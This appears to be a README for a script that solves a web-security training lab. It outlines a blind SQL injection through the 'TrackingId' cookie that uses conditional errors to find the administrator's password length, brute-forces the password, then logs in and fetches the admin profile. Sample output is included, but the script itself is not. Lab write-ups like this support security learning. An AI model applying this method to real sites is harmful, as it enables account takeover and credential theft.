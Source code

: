 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional errors
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 13 
            .......
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. 
❯❯ Checking if char at position 7 =  q [ Correct password: 16vexiq ]
❯❯ Checking if char at position 15 =  8 [ Correct password: 16vexiq6xv0go08 ]
            .......
❯❯ Checking if char at position 20 =  q [ Correct password: 16vexiq6xv0go08or4vq ]
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
